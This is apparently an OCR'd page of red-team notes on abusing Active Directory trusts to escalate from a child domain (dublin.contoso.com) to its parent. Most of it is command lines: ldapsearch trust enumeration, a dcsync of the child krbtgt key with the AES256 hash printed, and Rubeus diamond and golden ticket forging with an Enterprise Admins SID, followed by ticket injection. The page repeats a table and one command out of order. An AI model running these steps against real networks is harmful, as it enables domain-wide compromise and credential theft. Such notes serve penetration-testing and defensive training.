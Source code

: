 
| Value | Trust Direction                 |
| ----- | ------------------------------- |
| 0     | `TRUST_DIRECTION_DISABLED`      |
| 1     | `TRUST_DIRECTION_INBOUND`       |
| 2     | `TRUST_DIRECTION_OUTBOUND`      |
| 3     | `TRUST_DIRECTION_BIDIRECTIONAL` |

| Value | Trust Direction                 |
| ----- | ------------------------------- |
| 0     | `TRUST_DIRECTION_DISABLED`      |
| 1     | `TRUST_DIRECTION_INBOUND`       |
| 2     | `TRUST_DIRECTION_OUTBOUND`      |
| 3     | `TRUST_DIRECTION_BIDIRECTIONAL` |

```
39610acedf7a66db295ee28263e7ad75234ae7884dbde20a4890bf97f7b8872b

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /sids:S-1-5-21-3926355307-1661546229-813047887-519 /krbkey:2eabe80498cf5c3c8465bb3d57798bc088567928bb1186f210c92c1eb79d66a9 /nowrap
```
##### Child to Parent Abuse

Enumerate trusts in place
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustPartner,trustDirection,trustAttributes,flatName
```

Obtain krbtgt AES256 hash of the child domain
```powershell
dcsync dublin.contoso.com DUBLIN\krbtgt

2eabe80498cf5c3c8465bb3d57798bc088567928bb1186f210c92c1eb79d66a9
```

Obtain child domain SID and parent domain SID
```powershell
ldapsearch (objectClass=domain) --attributes objectSid

ldapsearch (objectClass=domain) --attributes objectSid --hostname lon-dc-1.contoso.com --dn DC=contoso,DC=com
```

Create diamond ticket (OPSEC SAFE) or a golden ticket offline
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /sids:S-1-5-21-3926355307-1661546229-813047887-519 /krbkey:2eabe80498cf5c3c8465bb3d57798bc088567928bb1186f210c92c1eb79d66a9 /nowrap

C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /user:Administrator /domain:dublin.contoso.com /sid:[Child SID] /sids:[Parent EA GROUP SID] /aes256:[Child KRBTGT HASH] /outfile:C:\Users\Attacker\Desktop\golden
```

Inject ticket into current session
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

kerberos_ticket_use C:\Users\Attacker\Desktop\[TICKET]
```